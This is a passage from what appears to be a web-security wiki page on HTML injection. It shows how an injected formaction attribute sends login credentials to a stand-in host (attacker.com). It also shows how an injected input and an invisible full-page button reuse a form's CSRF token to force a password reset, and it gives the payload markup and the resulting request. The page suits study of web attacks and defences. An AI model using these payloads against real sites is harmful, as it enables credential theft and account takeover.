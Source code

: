An injection like `" formaction="https://attacker.com` would cause pressing the button to send credentials to `attacker.com` instead:

{% code title="Exploit" %}
```html
<button type="submit" class="" formaction="https://attacker.com">Submit</button>
```
{% endcode %}

#### CSRF form re-use

Another trick is to use the `form=` attribute to attach an `<input>` outside of any form to the form with that `id=`. If that **already has a CSRF token**, you can **add any values to it**, which will be trusted when submitting. To get more use out of it, you can add another button with relative `formaction=` that rewrites the destination, while retaining the CSRF token from the other form.

This effectively creates a perfect CSRF:

<pre class="language-html" data-title="Exploit"><code class="lang-html">&#x3C;form id="search-form" action="/search" method="post">
<strong>  &#x3C;input type="text" name="csrf" value="1337">
</strong>  &#x3C;input type="hidden" name="query" value="">
  &#x3C;button type="submit">Search&#x3C;/button>
&#x3C;/form>
&#x3C;!-- Injection: -->
<strong>&#x3C;input form="search-form" type="text" name="password" value="hacked">
</strong><strong>&#x3C;button form="search-form" formaction="/reset_password" type="submit" 
</strong><strong>        style="position: fixed; top: 0; left: 0; width: 100vw; height: 100vh; 
</strong><strong>               z-index: 999999; opacity: 0">&#x3C;/button>
</strong></code></pre>

When clicking anywhere on the page, this sends a request like the following:

<pre class="language-http"><code class="lang-http"><strong>POST /reset_password HTTP/1.1
</strong>Host: target.com
Origin: https://target.com
Content-Type: application/x-www-form-urlencoded

<strong>csrf=1337&#x26;query=&#x26;password=hacked
</strong></code></pre>

{% hint style="info" %}
**Tip**: Some other useful attributes for the submit button are:

* [`formnovalidate=`](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements/button#formnovalidate) to ignore validation rules, useful if the original form wasn't filled out completely.
* [`formmethod=`](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements/button#formmethod) to change the method from GET to POST, for example.
* [`formenctype=`](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements/button#formenctype) to use `multipart/form-data` or `text/plain` if needed. Unfortunately, still hard to create a valid JSON body with this.
* [`formtarget=`](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements/button#formtarget) to redirect not the current top-level window, but an iframe with this `id=`, to hide the response of the form submission to the victim.
{% endhint %}

Check out the page below for more details on exploitation of CSRF:

{% content-ref url="../cross-site-request-forgery-csrf.md" %}
[cross-site-request-forgery-csrf.md](../cross-site-request-forgery-csrf.md)
{% endcontent-ref %}
